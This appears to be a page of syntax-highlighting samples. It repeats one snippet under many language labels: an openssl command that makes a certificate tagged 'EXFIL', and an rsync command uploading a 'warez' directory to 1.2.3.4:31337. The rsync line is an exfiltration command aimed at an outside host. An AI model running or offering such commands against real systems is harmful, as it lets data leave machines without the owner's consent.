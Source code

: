 ```abap
```coffee
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
coldfusion
```coldfusion
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
csharp
```csharp
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
csound_document
```csound_document
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
csound_orchestra
```csound_orchestra
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
csound_score
```csound_score
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
css
```css
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
d
```d
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
dart
```dart
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
diff
```diff
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
django
```django
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
dockerfile
```dockerfile
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
eiffel
```eiffel
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
ejs
```ejs
```